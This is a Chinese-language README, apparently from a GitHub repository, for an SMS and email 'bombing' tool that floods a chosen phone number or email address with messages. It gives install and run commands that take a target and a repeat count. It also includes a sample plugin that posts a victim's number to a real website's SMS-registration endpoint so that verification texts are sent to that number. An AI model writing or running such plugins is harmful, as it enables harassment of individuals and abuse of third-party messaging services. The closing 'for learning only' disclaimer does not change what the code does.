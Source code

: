 ## 工具简介
这是一款针对手机号和邮箱的信息轰炸工具。
## 工具使用
+ 安装支持类库
```angular2html
pip install -r requirement.txt
```
+ 指定攻击的目标，并设置攻击次数
```angular2html
python cli -t 182****8458 -c 10
or
python cli -t test@admin.com -c 10
```
## 插件编写
`Plugin` 类继承自 `request` 库的 `Session` 类  
具有`GET`,`POST`,`PUT`,`DELETE`,`OPTION`,`request`等方法
具有`headers`,`verify`,`cookies`,`auth`,`proxies`等属性
```$xslt
:param target Type: str
:return: {'status': 利用状态, 'wait': 等待时间} Type: dict
```
+ 编写样例
```$python
# -*-* coding:UTF-8


class Plugin(Base):
    def __init__(self, *args):
        super().__init__(*args)

    def start(self, mobile: str):
        data = f'p={mobile}&type=reg'
        self.headers.update({
            'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
            'X-Requested-With': 'XMLHttpRequest'
        })
        with self.post(f'http://www.skawang.com/home/api/sendsms.html', data=data) as r:
            if '发送成功' in r.text:
                return {'status': True, 'wait': 120}

```
## 写在最后
该程序只是娱乐使用，共同学习，如果用于非法用途，后果自负。